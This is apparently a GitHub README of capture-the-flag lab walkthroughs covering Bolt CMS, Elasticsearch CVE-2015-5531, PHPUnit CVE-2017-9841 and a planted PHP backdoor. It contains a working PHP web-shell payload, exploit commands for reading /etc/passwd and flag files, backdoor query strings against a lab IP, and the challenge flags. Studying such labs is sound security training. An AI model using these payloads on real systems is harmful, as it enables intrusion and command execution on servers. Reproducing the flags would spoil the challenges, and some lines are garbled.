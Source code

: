 # cybersec-labs
# bolt
Let's try: View Page Source, pay attention to p This website is... /p, add /bolt to URL and guess the user and pass (admin, password).

Once you are in you need to go to file management to see if you can upload some malicious files. Let’s try to create and upload a vulnerable rce.html file

click file and start editing < ?php echo system($_GET['cmd']);? >
Go to options and rename the rce.html file to rce.php

Click on rce.php
Add cmd=id
cmd=ls-l
cat /flag.txt
CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
# elastic
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/219165d6-3a23-41a4-8efa-ff035e7b89b1)
Hints:
Hint 1:  Elasticsearch < 1.6.1 Arbitrary file read CVE (version)

The main web page exposure sensitive information about the version of Elasticsearch
application. 

The main of this scenario is to identify the vulnerability like in the real scenario.

Try to find an exploit

Searchable archive from The Exploit Database. https://www.exploit-db.com/

Search for remote Oracle exploits for Windows:
Installation:

$sudo apt install exploited

$sudo apt install libxml2-utils

Dependencies: libxml2-utils

$searchsploit elasticsearch

The vulnerability present in the current scenario offers more details about 
CVE-2015-5531- Arbitrary file Vulnerability. 

The exploit can be found here:

https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py

$ python3 exploit.py URL /etc/passwd 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a2ea58dc-fabc-4f50-a8ee-0ba19366d4c8)
CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
# php unit
A website is provided as a reference to my unit is feeling a little off. So first we can try to understand php unit. For example, we can use the automatic tool Dirsearch, which brute-force searches for vulnerabilities in directories.

$ dirsearch -u URL

From these addresses we can select the ones that are interesting to us like /composer.json, Here we can find versions of php-unit and /eval-stding.php
Vulnerable path. Let’s check: /composer.json where we can understand that our php uni is vulnerable (CVE-2017-9841).

Now exploit the vulnerable path using Burpsuite: < ?php system('cat /flag.txt')? >
CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}
# nodiff-backdoor
After performing some recon using *dirsearch* on the targeted web application, we can find a *backup.zip* archive.

$ dirsearch -u URL

Download the backup file from the following URL: http://34.107.45.207:30148//backup.zip 
(take note that the IP address can change based on the functionality of the CyberEDU platform.) 

In this way, we obtain the source code of the application.

$ wget http://34.107.45.207:30148//backup.zip 

Copy backup.zip to the new folder and unzip it. 

Now is the time to find some backdoor. Because applications use PHP code we try to search for vulnerable function in PHP:
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

We can try to search for all the vulnerable functions. After few tries observe we got the vulnerable function (shell_exec()) in the next path: “wp-content/themes/twentytwentytwo/functions.php”

$ grep –r “shell_exec(“

The next step is to execute the backdoor to access the server based on what we have. 
If we have the parameter welldone=knockknock, then execute parameter shazam=<injection>
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ed643c1-2038-4a23-ba9f-b3c823729699)
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5fbc856c-6241-4c2a-a001-2a9c9174004b)
Now let’s get the flag in the source of the page:
http://34.107.45.207:30148/?welldone=knockknock&shazam=id

http://34.107.45.207:30148/?welldone=knockknock&shazam=cat flag.php
CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}
